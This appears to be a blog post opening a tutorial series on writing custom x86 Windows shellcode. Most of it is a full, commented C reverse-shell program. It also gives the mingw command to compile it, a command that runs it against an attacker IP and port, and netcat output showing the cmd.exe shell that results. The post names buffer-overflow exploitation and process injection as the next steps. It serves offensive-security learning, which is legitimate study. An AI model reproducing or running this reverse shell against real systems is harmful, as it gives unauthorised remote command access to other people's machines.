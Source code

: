```yaml
---
layout: post
title: Writing Custom Shellcode, Introduction
---
```


[Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/shellcodez/arch) : [Part 3](https://plackyhacker.github.io/shellcodez/assembly)

# Writing Custom Shellcode, Introduction

Ever since doing the original OSCE I have had an interest in assembly code and writing shellcode, here I am sharing what I know hoping that it will help others.

## Assumptions

It is assumed that you know what a reverse shell is and you have a basic ability to read the flow of code. It is not necessary to understand the Win32 API calling conventions, or assembly language - this will be explained in later articles.

Writing shellcode isn't easy, but like any other subject it can be learned! Stick with it, it is extremely rewarding!

## Introduction

This series of articles will show how to write custom shellcode in x86 assembly language, why x86 (32-bit)?

The answer to this question is simple: when you are learning to write or analyse shellcode it is easier to study x86 than x64. The concepts are the same (albeit the instructions and calling conventions might be different), but the memory addresses, and the register sizes are 32-bits in length. Once you have learned x86 shellcode the transition to x64 should be easy.

## Anatomy of a Reverse Shell

Let's begin by looking at a basic reverse shell coded in C. I have heavily commented this code to make it easier to follow.

```c
include <winsock2.h>
#pragma comment(lib, "w2_32")

int main(int argc, char *argv[])
{
  // exit if args aren't provided (local ip/port)
  if(argc < 3) exit(0);

  // A pointer to the WSADATA data structure that is to receive details of the Windows Sockets implementation.
  WSADATA wsaData;
  	
  // If no error occurs, WSASocket returns a descriptor referencing the new socket.
  SOCKET Winsock;
  	
  // structure that specifies the address to which to connect.
  struct sockaddr_in laddr;

  // https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
  // The WSAStartup function initiates use of the Winsock DLL by a process, here we use v2.2
  WSAStartup(MAKEWORD(2,2), &wsaData);
  	
  // https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
  // The WSASocket function creates a socket that is bound to a specific transport-service provider.
  Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  // https://learn.microsoft.com/en-us/windows/win32/winsock/sockaddr-2
  // set up a socket addr structure for the local host (attacking machine)
  laddr.sin_family = AF_INET;
  laddr.sin_addr.s_addr = inet_addr(argv[1]);
  laddr.sin_port = htons(atoi(argv[2]));

  // https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
  // The WSAConnect function establishes a connection to another socket application (e.g., the netcat listener)
  WSAConnect(Winsock,(SOCKADDR*)&laddr, sizeof(laddr), NULL, NULL, NULL, NULL);
  
  if (WSAGetLastError() == 0) {
    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
    // Specifies the window station, desktop, standard handles, and appearance of the main window for a process at creation time.
    STARTUPINFO ini_processo;
    
    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information
    // Contains information about a newly created process and its primary thread.
    PROCESS_INFORMATION processo_info;
      
    // https://www.tutorialspoint.com/c_standard_library/c_function_memset.htm
    // this function basically sets the ini_processo structure to all 0s
    memset(&ini_processo, 0, sizeof(ini_processo));
      
    // simply specifies the size of the structure
    ini_processo.cb=sizeof(ini_processo);
    // If this flag is specified when calling one of the process creation functions, the handles must be inheritable
    ini_processo.dwFlags=STARTF_USESTDHANDLES;
    
    // here we redirect the stdin, stdout, and stderr handles to the socket handle
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
    // Creates a new process and its primary thread. The new process runs in the security context of the calling process.
    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    // exit
    exit(0);
  } else {
    // exit
    exit(0);
  }
}
```

From a high level the code does four things by using the Win32 APIs:

- `WSAStartup` - Initialises the winsock DLL for use.
- `WSASocket` - Creates a socket object which we can use to connect to a `netcat` listener on an attacking machine.
- `WSAConnect` - Establishes a connection to our `netcat` listener.
- `CreateProcess` - Creates a new `cmd.exe` process and redirects the stdin, stdout, and stderr streams to the winsock object.

The C code can be compiled on a Linux machine using `mingw32`:

```bash
i686-w64-mingw32-g++ -std=c++11 shell.c -o shell.exe -s -lws2_32 -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

We can then run the portable executable on Windows:

```powershell
shell.exe 172.16.245.129 4444
```

This establishes a reverse shell back to the `netcat` listener:

```bash
nc -nvlp 4444 
listening on [any] 4444 ...
connect to [172.16.245.129] from (UNKNOWN) [172.16.245.128] 57270
Microsoft Windows [Version 10.0.19044.1766]
(c) Microsoft Corporation. All rights reserved.

C:\Users\John\Desktop>
```

This is ok, but it has a few problems. It is compiled as a PE (portable executable) file, this means it needs to be dropped to disk and executed, which is not desirable. It cannot be used in a remote exploit, such as a buffer overflow. For this we need shellcode that can be injected into an existing process and does not rely upon the structure of a PE file to execute.

When writing shellcode we need to carry out the same four tasks to establish a reverse shell, but we need to program it in assembly language, which presents us with a different set of problems.

In the next article I will write about the x86 high-level architecture that we need to understand to write shellcode.

[Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/shellcodez/arch) : [Part 3](https://plackyhacker.github.io/shellcodez/assembly)
